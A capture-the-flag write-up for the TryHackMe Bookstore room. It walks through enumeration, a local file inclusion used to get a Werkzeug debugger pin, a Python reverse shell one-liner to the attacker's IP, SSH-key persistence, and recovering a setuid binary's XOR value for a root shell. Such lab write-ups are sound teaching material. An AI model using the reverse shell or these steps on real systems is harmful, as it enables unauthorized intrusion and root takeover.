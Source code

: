 <h1>Writeup for Bookstore room on <a href='https://tryhackme.com'>TryHackMe</a></h1>

<h3>User Flag</h3>
Enumerate the IP with nmap
<br></br><img src='Screenshot (72).png'/><br></br>
We can see port 5000 which seems to be running a python server, we'll get back to that in a minute.
Let's enumerate the webserver first. There is nothing special about the webserver as in general. Even the login feature is nothing but a dud but if you look at the source code of the <b>login.html</b>,there is a hint.
<br></br><img src='Screenshot (73).png'/><br></br>
The debugger pin is in sid's bash history which would be <b>.bash_history</b><br></br>
Now we move to port 5000.
It is a REST Api and if you visit <b>/api</b> you can see all the available endpoints.
I tried to read the bash file with id, author and published query parameter but they did not work.
So I went back to the website and started the enumeration again and this tim in /assests/js/api.js I saw the following comment
<h5>//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.</h5>
This indicates that we need to look for a parameter in the previous version. So now we need to change the version from v2 to v1 and look for a parameter.
<br></br>I used <b><a href='https://github.com/ffuf/ffuf'>FFUF</a></b> for this.
<br></br><img src='Screenshot (74).png'/><br></br>
We have the show parameter which we can use to get the pin. Now we can use the pin at <b>http://{MACHINE IP}:5000/console</b> (I was not aware of what Werkzeug was so I had to manually enumerate for the /console).
When you enter the pin you can access the console which executes python code.We can use that to get the shell, I used the python reverse shell for this but yuo are free to use any other shell
<h5>'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{YOUR IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")</h5>
WWith this we get the shell as user. Improve the shell by adding your ssh public key(present at ~/.ssh/id_rsa.pub) to <b>.ssh/authorized_keys</b> of the user sid, you need to create the .ssh folder first.
<h5>echo 'YOUR PUBLIC SSH KEY' > ~/.ssh/authorized_keys</h5>
After adding the keys you can login with your private key. You can create ssh keys with <b>ssh-keygen</b>, read more about it <a href='https://www.ssh.com/ssh/keygen/'>here</a>

<h3>Root</h3>
We can see a tryharder binary which has 's' bit set which means that we can run the binary as root. If you run the binary we can see that it asks us for a number and exits giving the message 'Incorrect Try Harder'. 
Lets copy the binary to our machine(Run the below command in your machine).
<h5>scp -i ~/.ssh/id_rsa sid@{MACHINE IP}:/home/sid/tryharder .</h5>
Now that we have the binary on our machine we can analyse the binary now.
Running strings against the binary shows us something very interesting.
<br></br><img src='Screenshot (76).png'/><br></br>
bash is running with -p to preserve the privileges of the root. Now we just need to find the magical number it is asking us. I opened the binary in ghidra and saw that our input was XORed with two values and then compared with a value, if it was equal it would run the bash command
<br></br><img src='Screenshot (77).png'/><br></br>
We can see that our input is being stored in <b>local_lc</b> variable and it is being XORed with hex value,  0x1116, and <b>local_l8</b>  varaiable with value, 0x5db3.
<br></br>
You can convert the hex values to decimal in Python Console.
<br></br><img src='Screenshot (78).png'/><br></br>

In XOR, if a ^ b ^ c = d then b ^ c ^ d = a (^ is xor. Also 0 ^ a = a and a ^ a = 0, you can use this property to understand the above statement. In the first equation XOR both sides with 'a' then the equation becomes b ^ c = d ^ a since a ^ a is 0 and anything XORed with 0 is the value itself. Now if you XOR both side with 'd' we will get b ^ c ^ d = a).
Now using this we will do, 23987 ^ 4374 ^ 1573724660 (1573724660 is the decimal value of 0x5dcd21f4 which is the hex value used in the comparision).
We will get the value we need, Now run the binary again, enter the value you get and that will give the root shell
